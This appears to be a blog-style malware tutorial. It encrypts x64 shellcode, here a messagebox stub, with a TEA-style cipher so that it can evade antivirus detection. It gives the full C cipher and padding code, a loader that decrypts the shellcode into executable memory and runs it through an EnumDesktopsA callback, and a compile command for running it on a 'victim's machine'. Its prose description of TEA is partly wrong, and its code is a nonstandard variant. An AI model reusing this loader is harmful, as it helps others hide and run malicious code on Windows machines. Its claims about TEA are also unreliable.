



# 06 cryptogpraphy - TEA encryption (payload)

### TEA

*TEA (Tiny Encryption Algorithm)* is a symmetric-key block cipher algorithm that operates on `64-bit` blocks and uses a `128-bit` key. The basic flow of the TEA encryption algorithm can be outlined as follows:

- Key expansion: The `128-bit` key is split into two `64-bit` subkeys.
- Initialization: The `64-bit` plaintext block is divided into two `32-bit` blocks.
- Round function: The plaintext block undergoes several rounds of operations, each consisting of the following steps:
  - Addition: The two `32-bit` blocks are combined using bitwise addition modulo `2^32`.
  - XOR: One of the subkeys is XORed with one of the `32-bit` blocks.
  - Shift: The result of the previous step is cyclically shifted left by a certain number of bits.
  - XOR: The result of the shift operation is XORed with the other `32-bit` block.

- Finalization: The two `32-bit` blocks are combined and form the `64-bit` ciphertext block.

The exact number of rounds in the TEA algorithm and the specific values used for key expansion and shifting depend on the specific implementation of the algorithm.      

Here is a simple implementation of the Tiny Encryption Algorithm (TEA) in C that can be used to encrypt and decrypt:      

```cpp
void tea_encrypt(unsigned char *data, unsigned char *key) {
  unsigned int i;
  unsigned char x = 0;

  unsigned int delta = 0x9e3779b9;
  unsigned int sum = 0;

  unsigned int v0 = *(unsigned int *)data;
  unsigned int v1 = *(unsigned int *)(data + 4);

  for (i = 0; i < ROUNDS; i++) {
    v0 += (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + ((unsigned int *)key)[sum & 3]);
    sum += delta;
    v1 += (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + ((unsigned int *)key)[(sum >> 11) & 3]);
  }

  *(unsigned int *)data = v0;
  *(unsigned int *)(data + 4) = v1;
}

void tea_decrypt(unsigned char *data, unsigned char *key) {
  unsigned int i;
  unsigned char x = 0;

  unsigned int delta = 0x9e3779b9;
  unsigned int sum = delta * ROUNDS;

  unsigned int v0 = *(unsigned int *)data;
  unsigned int v1 = *(unsigned int *)(data + 4);

  for (i = 0; i < ROUNDS; i++) {
    v1 -= (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + ((unsigned int *)key)[(sum >> 11) & 3]);
    sum -= delta;
    v0 -= (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + ((unsigned int *)key)[sum & 3]);
  }

  *(unsigned int *)data = v0;
  *(unsigned int *)(data + 4) = v1;
}
```

So, for encryption shellcode we can just run something like this:    

```cpp
unsigned char key[] = "\x6d\x65\x6f\x77\x6d\x65\x6f\x77\x6d\x65\x6f\x77\x6d\x65\x6f\x77";
unsigned char my_payload[] =
// 64-bit messagebox
"\x48\x83\xEC\x28\x48\x83\xE4\xF0\x48\x8D\x15\x66\x00\x00\x00"
"\x48\x8D\x0D\x52\x00\x00\x00\xE8\x9E\x00\x00\x00\x4C\x8B\xF8"
"\x48\x8D\x0D\x5D\x00\x00\x00\xFF\xD0\x48\x8D\x15\x5F\x00\x00"
"\x00\x48\x8D\x0D\x4D\x00\x00\x00\xE8\x7F\x00\x00\x00\x4D\x33"
"\xC9\x4C\x8D\x05\x61\x00\x00\x00\x48\x8D\x15\x4E\x00\x00\x00"
"\x48\x33\xC9\xFF\xD0\x48\x8D\x15\x56\x00\x00\x00\x48\x8D\x0D"
"\x0A\x00\x00\x00\xE8\x56\x00\x00\x00\x48\x33\xC9\xFF\xD0\x4B"
"\x45\x52\x4E\x45\x4C\x33\x32\x2E\x44\x4C\x4C\x00\x4C\x6F\x61"
"\x64\x4C\x69\x62\x72\x61\x72\x79\x41\x00\x55\x53\x45\x52\x33"
"\x32\x2E\x44\x4C\x4C\x00\x4D\x65\x73\x73\x61\x67\x65\x42\x6F"
"\x78\x41\x00\x48\x65\x6C\x6C\x6F\x20\x77\x6F\x72\x6C\x64\x00"
"\x4D\x65\x73\x73\x61\x67\x65\x00\x45\x78\x69\x74\x50\x72\x6F"
"\x63\x65\x73\x73\x00\x48\x83\xEC\x28\x65\x4C\x8B\x04\x25\x60"
"\x00\x00\x00\x4D\x8B\x40\x18\x4D\x8D\x60\x10\x4D\x8B\x04\x24"
"\xFC\x49\x8B\x78\x60\x48\x8B\xF1\xAC\x84\xC0\x74\x26\x8A\x27"
"\x80\xFC\x61\x7C\x03\x80\xEC\x20\x3A\xE0\x75\x08\x48\xFF\xC7"
"\x48\xFF\xC7\xEB\xE5\x4D\x8B\x00\x4D\x3B\xC4\x75\xD6\x48\x33"
"\xC0\xE9\xA7\x00\x00\x00\x49\x8B\x58\x30\x44\x8B\x4B\x3C\x4C"
"\x03\xCB\x49\x81\xC1\x88\x00\x00\x00\x45\x8B\x29\x4D\x85\xED"
"\x75\x08\x48\x33\xC0\xE9\x85\x00\x00\x00\x4E\x8D\x04\x2B\x45"
"\x8B\x71\x04\x4D\x03\xF5\x41\x8B\x48\x18\x45\x8B\x50\x20\x4C"
"\x03\xD3\xFF\xC9\x4D\x8D\x0C\x8A\x41\x8B\x39\x48\x03\xFB\x48"
"\x8B\xF2\xA6\x75\x08\x8A\x06\x84\xC0\x74\x09\xEB\xF5\xE2\xE6"
"\x48\x33\xC0\xEB\x4E\x45\x8B\x48\x24\x4C\x03\xCB\x66\x41\x8B"
"\x0C\x49\x45\x8B\x48\x1C\x4C\x03\xCB\x41\x8B\x04\x89\x49\x3B"
"\xC5\x7C\x2F\x49\x3B\xC6\x73\x2A\x48\x8D\x34\x18\x48\x8D\x7C"
"\x24\x30\x4C\x8B\xE7\xA4\x80\x3E\x2E\x75\xFA\xA4\xC7\x07\x44"
"\x4C\x4C\x00\x49\x8B\xCC\x41\xFF\xD7\x49\x8B\xCC\x48\x8B\xD6"
"\xE9\x14\xFF\xFF\xFF\x48\x03\xC3\x48\x83\xC4\x28\xC3";

int len = sizeof(my_payload);
int pad_len = (len + 8 - (len % 8)) & 0xFFF8;

unsigned char padded[pad_len];
memset(padded, 0x90, pad_len); // pad the shellcode with 0x90
memcpy(padded, my_payload, len); // copy the shellcode to the padded buffer

// encrypt the padded shellcode
for (int i = 0; i < pad_len; i += 8) {
  tea_encrypt(&padded[i], key);
}
```

As you can see, first of all, before encrypting, we use padding via the NOP (`\x90`) instructions. For this example, use the `meow-meow` messagebox payload as usual.     

For correctness, I add the decrypt function. and try to run shellcode:     

```cpp
// tea_decrypt(my_payload, key);
for (int i = 0; i < pad_len; i += 8) {
  tea_decrypt(&padded[i], key);
}

printf("decrypted:\n");
for (int i = 0; i < sizeof(padded); i++) {
  printf("\\x%02x", padded[i]);
}
printf("\n\n");

LPVOID mem = VirtualAlloc(NULL, sizeof(padded), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
RtlMoveMemory(mem, padded, pad_len);
EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
```

Compile our "malware":      

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

    

And run it at the victim's machine (`Windows 10 x64`):      

    

As you can see, our decrypted shellcode is modified: padding `\x90` is working as expected:      

    

Via [https://cocomelonc.github.io/malware/2023/02/20/malware-av-evasion-12.html](https://cocomelonc.github.io/malware/2023/02/20/malware-av-evasion-12.html)     